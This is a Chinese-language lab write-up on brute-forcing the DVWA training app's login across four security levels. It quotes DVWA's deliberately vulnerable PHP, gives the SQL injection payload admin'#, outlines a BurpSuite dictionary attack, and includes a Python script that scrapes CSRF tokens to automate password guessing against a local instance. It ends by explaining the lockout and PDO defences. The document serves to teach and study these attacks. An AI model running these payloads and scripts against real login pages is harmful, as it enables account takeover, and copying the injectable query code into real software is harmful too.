

# Ex1

DVWA部署暴力破解

## Low等级、Medium等级的手工破解、自动化破解

### Low等级

* 以下为源页面代码

```php
// Get username
$user = $_GET[ 'username' ];

// Get password
$pass = $_GET[ 'password' ];
$pass = md5( $pass );

// Check the database
$query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
```

根据代码分析，可以得知**user参数**存在SQL注入漏洞，构造注入内容```admin'#```点击登陆即可。



### Medium等级

* 以下为页面源代码

```php
// Sanitise username input
$user = $_GET[ 'username' ];
$user = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $user ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

// Sanitise password input
$pass = $_GET[ 'password' ];
$pass = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
$pass = md5( $pass );

// Check the database
$query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
```

根据代码分析，可以得知，**Medium等级**相较于**Low等级**增加了**SQL字符转义**。

那么便需要通过使用BurpSuite进行暴力破解了，配置好代理之后，BurpSuite可以捕捉到每一个HTTP请求。

将登录所使用的请求报文加载到Intruder，然后配置字典，点击开始攻击即可。

成功与否取决于字典的数据量和密码的复杂度，成功的响应报文尺寸一般与失败报文不一致，根据大小进行排序即可得出结果。

## High等级的自己撰写工具自动化破解

* 以下为页面源代码

```php
// Check Anti-CSRF token
checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

// Sanitise username input
$user = $_GET[ 'username' ];
$user = stripslashes( $user );
$user = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $user ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

// Sanitise password input
$pass = $_GET[ 'password' ];
$pass = stripslashes( $pass );
$pass = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
$pass = md5( $pass );

// Check database
$query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
```

根据代码分析，可以得知，**High等级**相较于**Medium等级**增加了**CSRF Token校验**。

那么只要编写代码获取**CSRF Token**再提交表单即可。

* 代码实现

```python
import requests
import re

COOKIES = {
  'PHPSESSID': 'fnmoob1qpobltjied2jljl5b1r',
  'security': 'high',
}

URL = 'http://localhost:42001/vulnerabilities/brute'
DATA = [
    ('admin', '123456'),
    ('admin', 'password'),
]

for username, password in DATA:
  resp = requests.get(URL, cookies=COOKIES)
  tokens = re.findall(r"name='user_token' value='(.+)?'", resp.text)

  resp = requests.get(URL, cookies=COOKIES, params=dict(
    username=username,
    password=password,
    user_token=tokens[0],
    Login='Login'
  ))

  print('Welcome' in resp.text, username, password)

```

* 运行结果

```log
┌──(root💀kali-linux-2021-3)-[~]
└─# python3 test.py 
False admin 123456
True admin password
```

## Impossible等级的机制以及修复、防御暴力破解的方法

* 以下为页面源代码

```php
// Check Anti-CSRF token
checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

// Sanitise username input
$user = $_POST[ 'username' ];
$user = stripslashes( $user );
$user = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $user ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

// Sanitise password input
$pass = $_POST[ 'password' ];
$pass = stripslashes( $pass );
$pass = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
$pass = md5( $pass );

// Default values
$total_failed_login = 3;
$lockout_time       = 15;
$account_locked     = false;

// Check the database (Check user information)
$data = $db->prepare( 'SELECT failed_login, last_login FROM users WHERE user = (:user) LIMIT 1;' );
$data->bindParam( ':user', $user, PDO::PARAM_STR );
$data->execute();
$row = $data->fetch();

// Check to see if the user has been locked out.
if( ( $data->rowCount() == 1 ) && ( $row[ 'failed_login' ] >= $total_failed_login ) )  {
        // User locked out.  Note, using this method would allow for user enumeration!
        //$html .= "<pre><br />This account has been locked due to too many incorrect logins.</pre>";

        // Calculate when the user would be allowed to login again
        $last_login = strtotime( $row[ 'last_login' ] );
        $timeout    = $last_login + ($lockout_time * 60);
        $timenow    = time();

        /*
        print "The last login was: " . date ("h:i:s", $last_login) . "<br />";
        print "The timenow is: " . date ("h:i:s", $timenow) . "<br />";
        print "The timeout is: " . date ("h:i:s", $timeout) . "<br />";
        */

        // Check to see if enough time has passed, if it hasn't locked the account
        if( $timenow < $timeout ) {
                $account_locked = true;
                // print "The account is locked<br />";
        }
}

// Check the database (if username matches the password)
$data = $db->prepare( 'SELECT * FROM users WHERE user = (:user) AND password = (:password) LIMIT 1;' );
$data->bindParam( ':user', $user, PDO::PARAM_STR);
$data->bindParam( ':password', $pass, PDO::PARAM_STR );
$data->execute();
$row = $data->fetch();
```

根据代码分析，可以得知，**Impossible等级**相较于**High等级**增加了**登录失败锁定限制**，并使用**PDO**与数据库进行交互，有效防止了SQL注入。

由此可见，当试错成本达到一定程度时，暴力破解便没有意义。
